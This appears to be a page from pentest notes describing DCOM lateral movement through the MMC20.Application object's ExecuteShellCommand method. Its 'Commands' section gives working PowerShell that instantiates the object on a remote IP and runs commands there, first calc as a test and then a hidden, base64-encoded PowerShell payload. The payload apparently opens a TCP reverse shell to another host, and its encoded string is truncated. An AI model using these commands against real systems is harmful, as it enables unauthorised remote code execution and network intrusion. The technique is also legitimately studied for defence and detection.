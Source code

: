 # DCOM

The Microsoft Component Object Model (COM)3 is a system for creating software components that interact with each other. While COM was created for either same-process or cross-process interaction, it was extended to Distributed Component Object Model (DCOM) for interaction between multiple computers over a network.

The discovered DCOM lateral movement technique is based on the **Microsoft Management Console (MMC**) COM application that is employed for scripted automation of Windows systems.

The MMC Application Class allows the creation of Application Objects, which expose the **ExecuteShellCommand** method under the **Document.ActiveView** property. As its name suggests, this method allows execution of any shell command as long as the authenticated user is authorized, which is the default for local administrators.

#### Commands <a href="#commands" id="commands"></a>

```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))


$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")


C:\Users\Administrator>tasklist | findstr "calc"
win32calc.exe                 4764 Services                   0     12,132 K



$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```
